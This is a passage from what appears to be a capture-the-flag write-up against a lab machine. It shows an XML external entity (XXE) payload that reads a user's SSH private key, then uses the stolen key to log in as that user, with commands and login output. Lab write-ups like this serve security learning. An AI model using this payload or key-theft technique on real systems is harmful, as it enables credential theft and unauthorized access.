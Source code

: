 Let's see if we can access their RSA private key..

```
$ cat hello6.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```

<img src="xxe-idrsa.jpg" width=500px>

With the help from `https://www.samltool.com/format_privatekey.php`, we
now have a file `id_rsa` that should work for us to `ssh` into the box as
`roosa`.

```
$ mv id_rsa id_rsa.roosa
$ chmod 600 id_rsa.roosa
$ ssh roosa@10.10.10.91 -i id_rsa.roosa
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Sep  3 01:35:37 2018 from 10.10.15.253
roosa@gitter:~$
```
